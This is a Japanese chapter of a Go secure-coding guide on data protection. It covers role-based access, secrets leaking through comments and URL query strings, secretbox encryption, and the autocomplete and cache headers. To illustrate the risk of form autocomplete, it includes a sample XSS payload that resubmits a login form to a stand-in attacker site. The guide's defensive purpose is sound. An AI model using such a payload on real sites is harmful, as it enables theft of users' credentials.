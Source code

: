 データの保護
===============

現在、データの保護はセキュリティ全般で最も重要なことの1つです。
以下のようになってしまったら困りますよね。

![All your data are belong to us](files/cB52MA.jpeg)

Webアプリケーションのデータは保護される必要があります。そのため、このセクションではデータを保護するさまざまな方法について見ていきます。

最初に取り組むべきことの1つは、ユーザーそれぞれに対して適切な権限を実装し、本当に必要な機能だけにアクセスを制限することです。

例えば、次のようなユーザー・ロールを持つ単純なオンライン・ストアを考えてみましょう。

* セールスユーザー: カタログの閲覧のみ許可
* マーケティングユーザー: 統計情報の確認が可能
* 開発者: ページとウェブアプリケーションの設定変更を許可する

また、システム（ウェブサーバー）構成において、正しいパーミッションを定義するべきです。

最初にやるべきことは各ユーザーに適切なロールを定義することです。

役割の分離とアクセス制御については、さらに、[アクセス制御][5]で説明します。

## 機密情報の削除

機密情報を含む一時ファイルやキャッシュファイルは、不要になり次第すぐに削除しましょう。
まだ必要な場合は、保護された場所に移動させるか、暗号化しましょう。

### コメント

開発者がソースコードに Todo リストのようなコメントを残すことがあります。
最悪の場合、開発者がクレデンシャルを残すこともあります。

```go
// Secret API endpoint - /api/mytoken?callback=myToken
fmt.Println("Just a random code")
```

上記の例では、開発者がコメント内にエンドポイントの情報を残しています。このエンドポイントが守られていない場合、悪意あるユーザーに利用されてしまうかもしれません。

### URL

HTTP GET メソッドで機密情報を渡すことは、次のような理由でウェブアプリケーションの脆弱性を残すことになります。

1. HTTPS を使用していない場合、MITM 攻撃によりデータを傍受される可能性があります。
2. ブラウザの履歴には、ユーザーの情報が保存されています。URL に
   セッション ID、ピン、トークンなど、有効期限のない（あるいはエントロピーの低い）ものが含まれていると、それらを盗まれる可能性があります。
3. 検索エンジンは、ページ内で発見されたURLを保存する
4. HTTP サーバー（例：Apache、Nginx）は、通常、要求された URL を、クエリ文字列を含めて、暗号化されていない状態でログファイル (例: `access_log`) に書き込みます。

```go
req, _ := http.NewRequest("GET", "http://mycompany.com/api/mytoken?api_key=000s3cr3t000", nil)
```

ウェブアプリケーションが `api_key` を使って、第三者のウェブサイトから情報を取得しようとした場合に、もしも同一のネットワーク内で誰かが盗聴していたら、もしくはプロキシを使っていたとしたら、その情報は盗まれるかもしれません。これは HTTPS を使っていないためです。

GET で渡されたパラメータ(クエリストリング)は、HTTP と HTTPS のどちらを使用しているかに関係なく、ブラウザの履歴やサーバーのアクセスログに綺麗に残ることに注意してください。

HTTPS は、クライアントとサーバー以外の第三者が、やり取りしたデータを取得できないようにするための方法です。
`api_key` のような機密データは、可能な限りリクエストボディか何らかのヘッダに格納する必要があります。同様に、可能な限り一回限りのセッション ID やトークンを使用します。

### 情報は力なり

本番環境上のアプリケーションやシステムのドキュメントは常に削除しましょう。
ドキュメントによっては、ウェブアプリケーションを攻撃するために使われる可能性のあるバージョンや機能を明かしてしまうかもしれません。
(例: Readme, Changelog, etc.)

開発者は、ユーザーが使わなくなった機密情報を削除できるようにすべきです。
例えば、ユーザーが自分のアカウントの期限切れのクレジットカードを削除したい場合、ウェブアプリケーションはそれを許可すべきです。

不要になった情報は、すべてアプリケーションから削除しなければなりません。

#### 暗号化がカギ

機密性の高い情報は全てウェブアプリケーション内で暗号化する必要があります。
軍用レベルの [Go で利用可能な暗号化][2] を使用してください。詳細については
[暗号に関するプラクティス][3]のセクションを参照してください。

あなたのコードを他の場所に実装する必要がある場合は、バイナリをビルドして共有してください。リバースエンジニアリングを防ぐ術はないためです。

コードにアクセスするための異なるパーミッションを用意し、ソースコードへのアクセスを制限することは最良の方法です。

パスワードやコネクションストリング、平文やセキュリティ的に不十分な形式の機密情報をクライアント側とサーバー側の両方で保存しないでください。（データベースコネクションストリングを保護する方法については、[データベースセキュリティ][4]の例を参照してください）。
安全でない形式（例えば、Adobe Flashやコンパイルされたコード）での埋め込みも含みます。

以下は、外部パッケージを使ってGoで暗号化するシンプルな例です。
`golang.org/x/crypto/nacl/secretbox`:

```go
// Load your secret key from a safe place and reuse it across multiple
// Seal calls. (Obviously don't use this example key for anything
// real.) If you want to convert a passphrase to a key, use a suitable
// package like bcrypt or scrypt.
secretKeyBytes, err := hex.DecodeString("6368616e676520746869732070617373776f726420746f206120736563726574")
if err != nil {
    panic(err)
}

var secretKey [32]byte
copy(secretKey[:], secretKeyBytes)

// You must use a different nonce for each message you encrypt with the
// same key. Since the nonce here is 192 bits long, a random value
// provides a sufficiently small probability of repeats.
var nonce [24]byte
if _, err := rand.Read(nonce[:]); err != nil {
    panic(err)
}

// This encrypts "hello world" and appends the result to the nonce.
encrypted := secretbox.Seal(nonce[:], []byte("hello world"), &nonce, &secretKey)

// When you decrypt, you must use the same nonce and key you used to
// encrypt the message. One way to achieve this is to store the nonce
// alongside the encrypted message. Above, we stored the nonce in the first
// 24 bytes of the encrypted text.
var decryptNonce [24]byte
copy(decryptNonce[:], encrypted[:24])
decrypted, ok := secretbox.Open([]byte{}, encrypted[24:], &decryptNonce, &secretKey)
if !ok {
    panic("decryption error")
}

fmt.Println(string(decrypted))
```

出力は以下です。

```
hello world
```

## 不要なものは無効にする

攻撃ベクトルを減らすためのもう一つの簡単で効率的な方法は、システム上で不要なアプリケーションやサービスを無効にすることです。

### オートコンプリート

[Mozilla のドキュメント][1]によると、次のようにしてフォーム全体のオートコンプリートを無効にできます。


```html
<form method="post" action="/form" autocomplete="off">
```

特定のフォーム要素に対しては以下のようにします。

```html
<input type="text" id="cc" name="cc" autocomplete="off">
```

特に、ログインフォームのオートコンプリートを無効にする場合に便利です。ログインページに XSS ベクターが存在する場合を想像してみてください。
悪意のあるユーザが次のようなペイロードを作成した場合、

```javascript
window.setTimeout(function() {
  document.forms[0].action = 'http://attacker_site.com';
  document.forms[0].submit();
}
), 10000);
```

これは、オートコンプリートされたフォームフィールドを `attacker_site.com` に送信します。

### キャッシュ

機密情報を含むページのキャッシュ制御は無効にする必要があります。
次のスニペットに示すように、対応するヘッダーフラグを設定することで実現できます。

```go
w.Header().Set("Cache-Control", "no-cache, no-store")
w.Header().Set("Pragma", "no-cache")
```


`no-cache` 値は、キャッシュされた応答を使用する前にサーバーで再検証するよう、ブラウザに指示します。これはブラウザにキャッシュしないように指示するものではありません。

一方、`no-store` 値はキャッシュを無効にするためのものです。
リクエストやレスポンスのいかなる部分も保存させません。

`Pragma` ヘッダーは HTTP/1.0 リクエストをサポートするために存在します。

[1]: https://developer.mozilla.org/en-US/docs/Web/Security/Securing_your_site/Turning_off_form_autocompletion
[2]: https://godoc.org/golang.org/x/crypto
[3]: ../cryptographic-practices/README.md
[4]: ../database-security/README.md
[5]: ../access-control/README.md